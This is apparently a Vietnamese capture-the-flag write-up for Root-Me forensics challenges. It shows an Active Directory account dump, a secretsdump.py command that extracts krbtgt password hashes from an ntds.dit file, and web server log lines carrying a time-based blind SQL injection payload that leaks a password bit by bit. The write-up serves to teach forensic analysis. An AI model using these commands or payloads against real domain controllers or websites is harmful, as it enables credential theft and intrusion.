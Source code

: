     "codePage": 0,
    "countryCode": 0,
    "badPasswordTime": "1601-01-01 00:00:00",
    "lastLogoff": "1601-01-01 00:00:00",
    "lastLogon": "1601-01-01 00:00:00",
    "pwdLastSet": "2022-08-29 22:26:06",
    "primaryGroupID": 513,
    "objectSid": "S-1-5-21-1356747155-1897123353-4258384033-2092",
    "accountExpires": "9999-12-31 23:59:59",
    "logonCount": 0,
    "sAMAccountName": "a.newton",
    "sAMAccountType": 805306368,
    "servicePrincipalName": [
        "HTTP/SRV-RDS.rootme.local"
    ],
    "objectCategory": "CN=Person,CN=Schema,CN=Configuration,DC=ROOTME,DC=local",
    "dSCorePropagationData": [
        "1601-01-01 00:00:00"
    ],
    "mail": "alexandria.newton@rootme.local"
```
## Windows - NTDS Extraction de secrets
![image](/assets/data/10.png)

Ta sẽ dùng 1 công cụ tên là ***secretsdump.py***: Đây là một script trong công cụ Impacket, dùng để trích xuất các hash mật khẩu từ hệ thống Windows, đặc biệt là từ các Domain Controller (DC)

Kết hợp với grep để tìm accout ***krbtgt***

```
secretsdump.py -system "registry/SYSTEM" -ntds "Active Directory/ntds.dit" LOCAL | grep "krbtgt"

/home/minhtuan/.local/lib/python3.13/site-packages/impacket/version.py:10: UserWarning: pkg_resources is deprecated as an API. See https://setuptools.pypa.io/en/latest/pkg_resources.html. The pkg_resources package is slated for removal as early as 2025-11-30. Refrain from using this package or pin to Setuptools<81.
  import pkg_resources
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:1a3cf03faaf1b5a34e4d538e2206f8f0:::
krbtgt:aes256-cts-hmac-sha1-96:85c422e6d4f4e340b445c6a3f16d8d7b25bfdf290d956134bc0d5b6ab272b475
krbtgt:aes128-cts-hmac-sha1-96:fd526233205e13c0b8225087e848a101
krbtgt:des-cbc-md5:4f1f767686e52019
```

## Logs analysis - web attack

![image](/assets/data/11.png)
Bài này lúc đầu mình tìm kiếm sự khác nhau giữa các request, xong thấy trùng nhau giữa từng cụm 4 request nhiều và khác nhau giữa các cụm cũng nhiều nên mình dịch base64 ra thử. Lấy vd 8 lines đầu:


```
192.168.1.23 - - [18/Jun/2015:12:12:54 +0200] "GET /admin/?action=membres&order=ASC,(select (case field(concat(substring(bin(ascii(substring(password,1,1))),1,1),substring(bin(ascii(substring(password,1,1))),2,1)),concat(char(48),char(48)),concat(char(48),char(49)),concat(char(49),char(48)),concat(char(49),char(49)))when 1 then TRUE when 2 then sleep(2) when 3 then sleep(4) when 4 then sleep(6) end) from membres where id=1) HTTP/1.1" 200 1005 "-" "-"
192.168.1.23 - - [18/Jun/2015:12:13:00 +0200] "GET /admin/?action=membres&order=ASC,(select (case field(concat(substring(bin(ascii(substring(password,1,1))),3,1),substring(bin(ascii(substring(password,1,1))),4,1)),concat(char(48),char(48)),concat(char(48),char(49)),concat(char(49),char(48)),concat(char(49),char(49)))when 1 then TRUE when 2 then sleep(2) when 3 then sleep(4) when 4 then sleep(6) end) from membres where id=1) HTTP/1.1" 200 1005 "-" "-"